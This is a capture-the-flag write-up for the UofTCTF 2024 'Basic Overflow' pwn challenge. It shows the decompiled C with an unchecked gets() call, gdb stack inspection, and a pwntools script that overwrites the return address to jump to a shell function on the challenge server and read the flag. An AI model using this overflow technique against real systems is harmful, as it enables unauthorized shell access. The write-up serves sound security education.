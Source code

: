 ```yaml
---
layout: post
title: "[UofTCTF 2024] Basic Overflow"
author: edaigle
---
```


## Problem Description
> This challenge is simple. It just gets input, stores it to a buffer. It calls gets to read input, stores the read bytes to a buffer, then exits. What is gets, you ask? Well, it's time you read the manual, no? Author: drec

This is a simple beginner pwn challenge.

## Getting started

We connect with netcat and see the program silently accepts a random input,
not too exciting.

## Decompiling

Downloading the binary and opening with Ghidra, we see it's an x64 ELF.
Ghidra finds two functions:

```c
  undefined8 main(void) {
        char local_48[64];
        gets(local_48);
        return 0;
  }

  undefined8 shell(void) {
        execve("/bin/sh", (char.**)0x0, (char**)0x0);
        return;
  }
```

So we are reading user input into a 64-byte char array from gets().

## Analysis

As the man page warns you, gets() is dangerous: it does no overflow checking!

Clearly we need to exploit an overflow. Since the only variable here is the
input buffer, we need to overwrite the return address, making the program return
to shell() and giving us a shell.

x64 stores the return address on the stack above the saved base pointer,
parameters, and local variables. Our call to main has no parameters,
so we need to write 64 bytes to get past the input buffer, then write 8 bytes
to get past the saved rbp, then write our 8 byte address.
Disassemble main with gdb:

```bash
(gdb) disas main
Dump of assembler code for function main:
   0x0000000000401156 <+0>:     push   %rbp
   0x0000000000401157 <+1>:     mov    %rsp,%rbp
   0x000000000040115a <+4>:     sub    $0x40,%rsp
   0x000000000040115e <+8>:     lea    -0x40(%rbp),%rax
   0x0000000000401162 <+12>:    mov    %rax,%rdi
   0x0000000000401165 <+15>:    mov    $0x0,%eax
   0x000000000040116a <+20>:    call   0x401040 <gets@plt>
   0x000000000040116f <+25>:    mov    $0x0,%eax
   0x0000000000401174 <+30>:    leave
   0x0000000000401175 <+31>:    ret
End of assembler dump.
(gdb)
```

Set a breakpoint immediately after the call to gets() and inspect the frame:

```bash
(gdb) b *0x40116f
Breakpoint 1 at 0x40116f
(gdb) r
Starting program: /home/kali/ctfs/uoftctf2024/basic-overflow/basic-overflow
hi

Breakpoint 1, 0x000000000040116f in main ()
(gdb) i f
Stack level 0, frame at 0x7fffffffdd90:
 rip = 0x40116f in main; saved rip = 0x7ffff7df26ca
 Arglist at 0x7fffffffdd80, args:
 Locals at 0x7fffffffdd80, Previous frame's sp is 0x7fffffffdd90
 Saved registers:
  rbp at 0x7fffffffdd80, rip at 0x7fffffffdd88
```

So we see the return address (saved rip) is stored at 0x7fffffffdd88. This is
the location where we'll overwrite the address of the shell() function, which
Ghidra tells us is 0x401136. If we had ged, we could search for the "hi" string
we typed and confirm it is at 0x7fffffffdd88 + 72, but we'll just give it a try.

## Attack

Now we have everything we need to write our attack script:

```python
from pwn import *

target = remote("34.123.15.202", 5000)

payload = b"0"*72
payload += p64(0x401136)

target.sendline(payload)
target.interactive()
```

Time to send it:

```bash
(kali㉿kali)-[~/ctfs/uoftctf2024/basic-overflow]
$ python exploit.py
[+] Opening connection to 34.123.15.202 on port 5000: Done
[*] Switching to interactive mode
$ ls
flag
run
$ cat flag
uoftctf{reading_manuals_is_very_fun}
```

Voila!
